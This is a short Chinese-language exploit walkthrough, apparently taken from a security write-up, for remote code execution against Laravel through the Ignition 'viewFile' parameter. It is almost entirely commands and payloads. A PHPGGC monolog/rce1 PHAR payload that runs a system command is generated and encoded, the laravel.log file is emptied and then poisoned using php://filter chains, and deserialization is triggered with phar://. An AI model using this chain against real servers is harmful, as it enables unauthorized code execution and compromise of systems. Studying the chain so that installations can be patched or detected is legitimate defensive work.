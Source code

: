 创建一个PHPGGC payload，并对其进行编码：

```php
php -d'phar.readonly=0' ./phpggc monolog/rce1 system id --phar phar -o php://output | base64 -w0 | sed -E 's/./\0=00/g'
U=00E=00s=00D=00B=00A=00A=00A=00A=00A=00A=00A=00A=00A=00A=00A=00I=00Q=00A=00M=00f=00n=00/=00Y=00B=00A=00A=00A=00A=00A=00Q=00A=00A=00A=00A=00F=00A=00B=00I=00A=00Z=00H=00V=00t=00b=00X=00l=00u=00d=00Q=004=00A=001=00U=00l=003=00t=00r=00Q=00B=00A=00A=00A=00A=00A=00A=00A=00A=00A=00A=00B=000=00Z=00X=00N=000=00U=00E=00s=00D=00B=00A=00A=00A=00A=00A=00A=00A=00A=00A=00A=00A=00I=00Q=00A=007=00m=00z=00i=004=00H=00Q=00A=00A=00A=00B=000=00A=00A=00A=00A=00O=00A=00B=00I=00A=00L=00n=00B=00o=00Y=00X=00I=00v=00c=003=00R=001=00Y=00i=005=00w=00a=00H=00B=00u=00d=00Q=004=00A=00V=00y=00t=00B=00h=00L=00Y=00B=00A=00A=00A=00A=00A=00A=00A=00A=00A=00A=00A=008=00P=003=00B=00o=00c=00C=00B=00f=00X=000=00h=00B=00T=00F=00R=00f=00Q=000=009=00N=00U=00E=00l=00M=00R=00V=00I=00o=00K=00T=00s=00g=00P=00z=004=00N=00C=00l=00B=00L=00A=00w=00Q=00A=00A=00A=00A=00A=00A=00A=00A=00A=00A=00C=00E=00A=00D=00H=005=00/=002=00A=00Q=00A=00A=00A=00A...=00Q=00==00==00
```

清空日志

```shell
viewFile: php://filter/write=convert.base64-decode|convert.base64-decode|convert.base64-decode/resource=/path/to/storage/logs/laravel.log
```

创建第一个日志条目，用于对齐：

```
viewFile: AA
```

创建带有payload日志条目：

```php
viewFile: U=00E=00s=00D=00B=00A=00A=00A=00A=00A=00A=00A=00A=00A=00A=00A=00I=00Q=00A=00M=00f=00n=00/=00Y=00B=00A=00A=00A=00A=00A=00Q=00A=00A=00A=00A=00F=00A=00B=00I=00A=00Z=00H=00V=00t=00b=00X=00l=00u=00d=00Q=004=00A=001=00U=00l=003=00t=00r=00Q=00B=00A=00A=00A=00A=00A=00A=00A=00A=00A=00A=00B=000=00Z=00X=00N=000=00U=00E=00s=00D=00B=00A=00A=00A=00A=00A=00A=00A=00A=00A=00A=00A=00I=00Q=00A=007=00m=00z=00i=004=00H=00Q=00A=00A=00A=00B=000=00A=00A=00A=00A=00O=00A=00B=00I=00A=00L=00n=00B=00o=00Y=00X=00I=00v=00c=003=00R=001=00Y=00i=005=00w=00a=00H=00B=00u=00d=00Q=004=00A=00V=00y=00t=00B=00h=00L=00Y=00B=00A=00A=00A=00A=00A=00A=00A=00A=00A=00A=00A=008=00P=003=00B=00o=00c=00C=00B=00f=00X=000=00h=00B=00T=00F=00R=00f=00Q=000=009=00N=00U=00E=00l=00M=00R=00V=00I=00o=00K=00T=00s=00g=00P=00z=004=00N=00C=00l=00B=00L=00A=00w=00Q=00A=00A=00A=00A=00A=00A=00A=00A=00A=00A=00C=00E=00A=00D=00H=005=00/=002=00A=00Q=00A=00A=00A=00A...=00Q=00==00==00
```

通过我们的过滤器将日志文件转换为有效的PHAR：

```php
viewFile: php://filter/write=convert.quoted-printable-decode|convert.iconv.utf-16le.utf-8|convert.base64-decode/resource=/path/to/storage/logs/laravel.log
```

启动PHAR的反序列化过程：

```php
viewFile: phar:///path/to/storage/logs/laravel.log
```
